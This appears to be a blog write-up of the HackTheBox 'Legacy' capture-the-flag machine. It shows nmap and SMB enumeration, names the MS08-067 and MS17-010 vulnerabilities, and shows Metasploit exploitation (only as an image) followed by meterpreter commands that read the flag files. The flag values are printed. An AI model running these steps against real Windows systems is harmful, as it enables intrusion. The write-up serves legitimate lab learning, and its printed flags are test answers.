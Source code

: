 ```yaml
---
layout: post
title: HackTheBox - Legacy
date: 2021-01-05 17:58:12 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/windows/easy/legacy/Legacy.png
---
```


## Enumeration

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Legacy-full-port-scan.txt 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up (0.12s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h56m10s, deviation: 1h24m51s, median: -4h56m10s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:67:71 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-01-05T13:28:59+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
{% endhighlight %}

The target is a **Windows XP** server running **Samba**.

### smb (ports 139 & 445)

{% highlight bash %}
$ smbclient -L //10.10.10.4/ -U '%' | tee services/139-smbclient.txt
protocol negotiation failed: NT_STATUS_IO_TIMEOUT
$ smbmap -H $TARGET -R
[+] IP: 10.10.10.4:445  Name: 10.10.10.4
$
{% endhighlight %}

### `nmap` scan vuln

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 --script vuln -oN vuln-scan.txt 10.10.10.4
{% endhighlight %}

![nmap vuln scan](/assets/img/htb/machines/windows/easy/legacy/nmap-vuln-scan.png)

Two critical vulnerabilities allowing remote code execution affect our target machine:

- **MS08-067** (`CVE-2008-4250`) 
- **MS17-010** (`CVE-2017-0143`) 

## Exploitation

Both of these vulns can be exploited through Metasploit modules.

### Metasploit (exploiting MS08-067)

![msf](/assets/img/htb/machines/windows/easy/legacy/msf.png)

## SYSTEM user

{% highlight bash %}
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\WINDOWS\system32
meterpreter > search -f user.txt
Found 1 result...
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
meterpreter > cat C:\\Documents\ and\ Settings\\john\\Desktop\\user.txt
e69af0e4f443de7e36876fda4ec7644f
meterpreter > search -f root.txt
Found 1 result...
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
meterpreter > cat C:\\Documents\ and\ Settings\\Administrator\\Desktop\\root.txt
993442d258b0e0ec917cae9e695d5713
{% endhighlight %}
___

## Useful links

- [CVE-2008-4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [Microsoft Security Bulletin MS08-067 - Critical](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067?redirectedfrom=MSDN)